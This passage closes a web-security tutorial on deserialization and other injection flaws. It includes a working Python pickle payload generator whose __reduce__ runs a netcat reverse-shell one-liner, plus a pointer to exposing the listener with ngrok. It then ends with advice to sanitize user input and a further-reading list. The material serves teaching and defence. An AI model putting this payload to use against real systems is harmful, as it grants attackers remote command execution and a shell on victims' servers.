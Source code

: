 A sample payload generator which opens a reverse shell can be analyzed below:

```python
import pickle
import base64
import os


class RCE:
    def __reduce__(self):
        cmd = ('rm /tmp/f; mkfifo /tmp/f; cat /tmp/f | '
               '/bin/sh -i 2>&1 | nc 127.0.0.1 1234 > /tmp/f')
        return os.system, (cmd,)


if __name__ == '__main__':
    pickled = pickle.dumps(RCE())
    print(base64.urlsafe_b64encode(pickled))
```

This code will generate a reverse shell, which opens the possibility of **RCE** on the target machine.
In order to accomplish this, you also need to make sure the port is accessible to the Internet.
You may find some simple instructions for how to do this [here](https://securiumsolutions.com/blog/reverse-shell-using-tcp/), using `ngrok`.
Again, it's one of the most dangerous vulnerabilities for a web application, whatever the programming language was chosen for the back-end (be it **PHP**, **Python**, **JavaScript**, **Ruby**, etc.), and the programmer should be aware and protect it against malicious actors.
Also, always research the functions and modules used inside your application to prevent such vulnerabilities.

# Wrap Up

As you have seen so far, even a small mistake, such as using `==` instead of `===`, can cause your application to break at unexpected input.
From an attacker standpoint, you can never know if the programmer was careful enough when writing the code, so you should always research and test what exploits can the application be vulnerable to, specific to the language / framework used.

The most important aspect we kept talking about during all the sessions is to never trust the user input.
He can have malicious thoughts and purposefully try to break the application or he can unknowingly send a bad request and achieve the same result.
In conclusion, the code should be properly tested before being put in production and the user input should always be carefully sanitized.

# Further Reading

* <https://owasp.org/www-pdf-archive/PHPMagicTricks-TypeJuggling.pdf>
* <https://www.netsparker.com/blog/web-security/php-type-juggling-vulnerabilities/>
* <https://foxglovesecurity.com/2017/02/07/type-juggling-and-php-object-injection-and-sqli-oh-my/>
* <https://hydrasky.com/network-security/php-string-comparison-vulnerabilities/>
* <https://medium.com/swlh/php-type-juggling-vulnerabilities-3e28c4ed5c09>
* <https://nitesculucian.github.io/2018/10/05/php-object-injection-cheat-sheet/>
* <https://www.imperva.com/learn/application-security/rfi-remote-file-inclusion/>
* <https://www.acunetix.com/blog/articles/remote-file-inclusion-rfi/>
* <https://www.acunetix.com/blog/articles/local-file-inclusion-lfi/>
* <https://bitquark.co.uk/blog/2013/07/23/the_unexpected_dangers_of_preg_replace>
* <https://www.whitehatsec.com/blog/magic-hashes/>
* <https://davidhamann.de/2020/04/05/exploiting-python-pickle/>
